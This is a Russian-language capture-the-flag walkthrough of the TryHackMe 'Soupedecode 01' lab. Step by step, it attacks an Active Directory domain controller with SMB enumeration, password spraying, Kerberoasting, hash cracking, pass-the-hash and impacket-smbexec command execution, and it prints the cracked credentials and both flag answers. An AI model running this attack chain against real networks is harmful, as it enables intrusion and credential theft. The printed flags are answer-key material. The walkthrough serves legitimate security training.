# Soupedecode 01

> Полное прохождение лаборатории. Материал содержит спойлеры и предназначен только для легальной учебной практики.

**Лаборатория:** [открыть комнату на TryHackMe](https://tryhackme.com/room/soupedecode01)

## Ход работы

Привет! Начнем!

Сканируем порты командой nmap:

```bash
nmap -A 10.112.175.190
```



Анализируя вывод nmap, мы можем сделать вывод что перед нами контроллер домена. К тому же, на нем работает сервис SMB, о чем говорит открытый 445 порт и отработанные скрипты для SMB.

Начнем сканирование SMB сервиса с помощью программы netexec. Для первоначального сканирования используем встроенную учетную запись guest без пароля:

```bash
netexec smb 10.112.175.190 -u guest -p ''
```



Отлично, мы можем подключиться как guest. Затем мы выведем список доступных ресурсов для учетной записи guest:

```bash
netexec smb 10.112.175.190 -u guest -p ‘’ --shares
```



Общий ресурс IPC$ доступен для чтения. Чтобы получить список пользователей домена, мы перебираем все RID:

```bash
netexec smb 10.112.175.190 -u guest -p ‘’ --rid
```



Нам следует сделать список users.txt из всех пользователей домена для дальнейшей работы. Используем следующую команду:

```bash
netexec smb 10.112.175.190 -u guest -p '' --rid | grep SidTypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt
```



После этого я долго пытался подобрать пароли к учетным записям пользователей, используя различные словари, но безуспешно. Однако, попробовав использовать список пользователей как список паролей, мы подбираем пароль к учетной записи ybob317:

```bash
netexec smb 10.112.175.190 -u users.txt -p users.txt --no-brute
```



ybob317: ybob317

Теперь перечислим доступные ресурсы пользователя ybob317:



Видим, что пользователь ybob317 имеет доступ к общему ресурсу Users, подключимся к нему с помощью smbclient:

```bash
smbclient //10.112.175.190/Users -U ybob317
```



Немного походив по серверу, я нашел пользовательский флаг по адресу ybob317/Desktop/user.txt и скачал его командой get на свою машину.

What is the user flag? - 28189316c25dd3c0ad56d44d000d62a8

Имея действительные учетные данные пользователя домена, мы можем попробовать Kerberoasting, предварительно добавив в файл /etc/hosts доменное имя soupedecode.local:

```bash
impacket-GetUserSPNs -request -outputfile kerberoasting.txt soupedecode.local/ybob317:ybob317'
```





Теперь используем Hashcat / John the Ripper и словарь rockyou.txt для взлома хешей:

```bash
hashcat kerberoasting.txt ~/Downloads/rockyou.txt
```



Мы успешно взломали хэш аккаунта file_svc:     file_svc:Password123!!

Снова перечислим доступные ресурсы найденного пользователя file_svc:

```bash
netexec smb 10.112.175.190 -u file_svc -p Password123!! -shares
```



У пользователя file_svc есть доступ к папке backup, подключимся к ней:



Скачиваем файл backup_extract.txt на нашу машину и открываем его:



Это очень похоже на NTLM хэши. Точнее, нам нужна вторая часть хэша после «:».

Командой «cut -d: -f 4 backup_extract.txt > ntlm-hashes.txt» извлечем хэши в отдельный файл ntlm-hashes.txt. Командой «cut -d: -f 1 backup_extract.txt > ntlm-users.txt» извлечем пользователей в отдельный файл ntlm-users.txt.





Пробуем подключиться к smb с нашими файлами пользователей и хэшей:

```bash
netexec smb 10.112.175.190 -u ntlm-users.txt -H ntlm-hashes.txt --no-brute
```



Мы нашли подходящий хэш для пользователя FileServer$. Кроме того, тег Pwn3d! в выводе netexec указывает на то, что учетная запись FileServer$ имеет административные привилегии на целевом устройстве, что позволяет нам использовать impacket-smbexec для выполнения команд на атакуемом контроллере домена.

```bash
impacket-smbexec 'FileServer$'@10.112.175.190 -hashes ':e41da7e79a4c76dbd9cf79d1cb325559'
```



Получилось! Найдем наш флаг root.txt:



What is the root flag? - 27cb2be302c388d63d27c86bfdd5f56a
